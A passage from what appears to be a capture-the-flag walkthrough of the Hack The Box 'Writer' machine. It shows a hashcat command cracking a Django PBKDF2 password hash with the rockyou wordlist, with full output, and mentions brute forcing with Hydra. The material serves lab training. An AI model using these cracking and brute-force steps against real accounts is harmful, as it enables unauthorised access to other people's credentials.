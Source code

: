 Fire up hashcat and rockyou:

```sh
┌──(root💀kali)-[~/htb/writer]
└─# hashcat hash.txt /usr/share/wordlists/rockyou.txt -m 10000        
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8850H CPU @ 2.60GHz, 1422/1486 MB (512 MB allocatable), 4MCU

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

<HIDDEN>
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Django (PBKDF2-SHA256)
Hash.Target......: pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8...uXM4A=
Time.Started.....: Thu Oct 14 22:06:04 2021 (1 min, 5 secs)
Time.Estimated...: Thu Oct 14 22:07:09 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      157 H/s (18.67ms) @ Accel:256 Loops:512 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10240/14344385 (0.07%)
Rejected.........: 0/10240 (0.00%)
Restore.Point....: 9216/14344385 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:259584-259999
Candidates.#1....: rubberducky -> 1asshole

Started: Thu Oct 14 22:04:54 2021
Stopped: Thu Oct 14 22:07:09 2021
```

We have the password for kyle after a few minutes.

## Easy Path

Instead of all that effort to get the password for Kyle we could have just brute forced it. Here's what happened when I set Hydra going right near the start of this walk through:

## Hydra

